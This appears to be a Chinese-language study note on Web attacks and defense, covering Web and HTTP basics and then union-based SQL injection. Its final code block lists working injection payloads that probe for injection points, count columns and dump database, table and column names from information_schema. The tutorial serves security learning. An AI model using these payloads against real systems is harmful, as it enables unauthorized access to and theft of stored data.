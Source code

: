 # Web 攻击与防御

## HTTP 和 Web 基础

[计算机网络_应用层](../计算机网络/计算机网络_应用层.md)

### Web

万维网（World Wide Web，WWW）简称 Web，是使用超文本传输协议（HTTP）传输网站页面和资源的一种网络应用层表现形式。  

Web 的基本结构可以简化为：

Web 浏览器 $\longleftrightarrow$ Web 服务器 $\longleftrightarrow$ 数据库服务器

* 常见的 Web 浏览器：Google Chrome、Mozilla Firefox、MicroSoft Edge、Opera 等。
* 提供 Web 服务的应用：Apache HTTP Server、Apache Tomcat、Nginx、IIS 等。
* 提供数据库服务的应用：Oracle、MySQL、Access、Redis、MongoDB、SQLite 等。

### HTTP 协议

超文本传输协议

get 和 post     

Session 和 Cookie

### HTML 与 CSS 基础

参考：[HTML & CSS](../HTML%20&%20CSS.md)

### PHP 基础

参考：[PHP](../PHP__A%20Basic%20Start.md)  

## SQL 注入 

### 基于报错注入

**漏洞成因**

未对 SQL 查询语句进行特殊字符的转义以及敏感词的过滤。

**漏洞利用**   

```sql
注入单引号、双引号、单引号加右括号等判断是否存在注入点

order by 3 %23
判断有多少列

union select 1,2,3 %23
判断数据回显位置

union select 1,user(),database() %23
显示出登录用户和数据库名

union select 1,(select group_concat(schema_name) from information_schema.schemata),3 %23
查询所有数据库名称

union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security' ),3 %23
查询 security 库中所有表名

union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' ),3 %23
查询 users 表中所有列名
```